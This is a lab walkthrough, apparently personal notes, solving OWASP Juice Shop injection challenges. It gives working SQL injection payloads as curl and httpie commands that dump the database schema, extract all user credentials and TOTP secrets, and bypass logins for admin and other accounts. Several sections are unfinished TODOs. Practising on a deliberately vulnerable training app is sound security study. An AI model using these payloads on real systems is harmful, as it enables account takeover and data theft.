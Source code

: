 # Injection

Resources

* [SQL injection](https://portswigger.net/web-security/sql-injection)
* [NoSQL injection](https://portswigger.net/web-security/nosql-injection)

## Reconnaissance

Intercept all requests and look for a request with parameters to fuzz
```bash
# verify vulnerability
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo';" | jq
# output
{
  "error": {
    "message": "SQLITE_ERROR: near \";\": syntax error",
    "stack": "Error: SQLITE_ERROR: near \";\": syntax error",
    "errno": 1,
    "code": "SQLITE_ERROR",
    "sql": "SELECT * FROM Products WHERE ((name LIKE '%foo';%' OR description LIKE '%foo';%') AND deletedAt IS NULL) ORDER BY name"
  }
}
```

## Christmas Special

Order the Christmas special offer of 2014

```bash
# find ProductId=10
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=2014%'+AND+deletedAt+IS+NOT+NULL));--" | jq

TOKEN=<REDACTED>

curl http://juiceshop:3000/api/BasketItems/ \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer ${TOKEN}" \
  --data-raw '{"ProductId":10,"BasketId":"6","quantity":1}'
```

## Database Schema

Exfiltrate the entire DB schema definition via SQL Injection

```bash
# Products table has 9 columns, add N static columns in order to match them and fix
# "SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns"
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+name,sql,'a','b','c','d','e','f','g'+FROM+sqlite_master+WHERE+type='table';--" | jq '.data | map({"id":.id,"name":.name})'
```

## Ephemeral Accountant

Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user

```bash
# trigger error
http http://juiceshop:3000/rest/user/login email=\' password=foo
# output
{
    "error": {
        "message": "SQLITE_ERROR: near \"acbd18db4cc2f85cedef654fccc4a4d8\": syntax error",
        "name": "SequelizeDatabaseError",
        "original": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "parameters": {},
        "parent": {
            "code": "SQLITE_ERROR",
            "errno": 1,
            "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL"
        },
        "sql": "SELECT * FROM Users WHERE email = ''' AND password = 'acbd18db4cc2f85cedef654fccc4a4d8' AND deletedAt IS NULL",
        "stack": "Error\n    at Database.<anonymous> (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:185:27)\n    at /juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:50\n    at new Promise (<anonymous>)\n    at Query.run (/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:183:12)\n    at /juice-shop/node_modules/sequelize/lib/sequelize.js:315:28\n    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)"
    }
}

# add static user to result
http http://juiceshop:3000/rest/user/login email="' UNION SELECT 999,'myUsername','acc0unt4nt@juice-sh.op','myPassword','accounting','','0.0.0.0','','','1','2023-10-28 15:47:25.395 +00:00','2023-10-28 15:47:25.395 +00:00','NULL' FROM Users'--"
```

## Login Admin

Log in with the administrator's user account

```bash
http http://juiceshop:3000/rest/user/login email="admin@juice-sh.op'--"
```

## Login Bender

Log in with Bender's user account

```bash
http http://juiceshop:3000/rest/user/login email="bender@juice-sh.op'--"
```

## Login Jim

Log in with Jim's user account

```bash
http http://juiceshop:3000/rest/user/login email="jim@juice-sh.op'--"
```

## NoSQL DoS

Let the server sleep for some time

```bash
TODO
```

## NoSQL Exfiltration 

All your orders are belong to us

```bash
TODO
```

## NoSQL Manipulation

Update multiple product reviews at the same time

```bash
TODO
```

## SSTi

Infect the server with juicy malware by abusing arbitrary command execution

```bash
TODO
```

## User Credentials

Retrieve a list of all user credentials via SQL Injection

```bash
curl -sS -H "Accept: application/json" "http://juiceshop:3000/rest/products/search?q=foo%'))+UNION+SELECT+id,username,email,password,role,deluxeToken,totpSecret,isActive,createdAt+FROM+Users;--" | jq '.data'
```
